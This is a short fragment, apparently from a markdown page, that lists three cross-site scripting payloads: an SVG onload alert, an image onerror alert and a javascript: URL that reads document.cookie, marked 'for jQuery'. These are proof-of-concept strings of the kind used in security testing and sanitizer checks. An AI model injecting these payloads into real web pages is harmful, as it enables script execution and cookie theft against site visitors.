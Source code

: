 Payload:
- `<svg onload=alert(1)>`
- `<img src=1 onerror=alert(1)`
- `javascript:alert(document.cookie)` (for jQuery)
- 